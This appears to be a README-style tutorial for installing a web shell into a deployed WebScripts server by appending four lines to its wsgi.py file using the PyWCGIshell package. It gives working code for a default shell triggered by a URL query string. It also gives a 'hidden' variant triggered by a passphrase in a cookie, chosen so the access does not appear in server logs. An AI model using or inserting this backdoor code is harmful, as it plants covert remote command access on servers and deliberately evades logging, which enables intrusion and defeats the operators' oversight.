 # WebScripts WebShell

## Description

Install a WebShell on hardened and deployed WebScripts (using Apache and mod_wsgi).

[![WebShell on WebScripts - Youtube](https://img.youtube.com/vi/pvaAwOkZ5FU/0.jpg)](http://www.youtube.com/watch?v=pvaAwOkZ5FU)

*WebShell on WebScripts - Youtube*

## Steps

### Install

Install requirements in virtualenv:
```bash
pip install PyWCGIshell
```

### Write code

Add 4 lines to the end of the `wsgi.py` file.

#### Default WebShell

```python
from PyWCGIshell import WebShell
webshell = WebShell(type_="wsgi")
webshell.standard_page = application
application = webshell.run
```

 - To use the WebShell add `?$HELL` to the end of the URL
 - The `$HELL` in the query string is visible in the logs, i do not recommend using the default WebShell configuration.

#### Hidden WebShell

```python
from PyWCGIshell import WebShell
webshell = WebShell(type_="wsgi", passphrase="azerty", pass_type="header_value")
webshell.standard_page = application
application = webshell.run
```

 - To use the WebShell add `azerty` in a header value (for example in a cookie, in the javascript console: `document.cookie="azerty"`) and reload the page
 - The value of the cookie is not visible in the logs
 - You should change the passphrase for more discretion
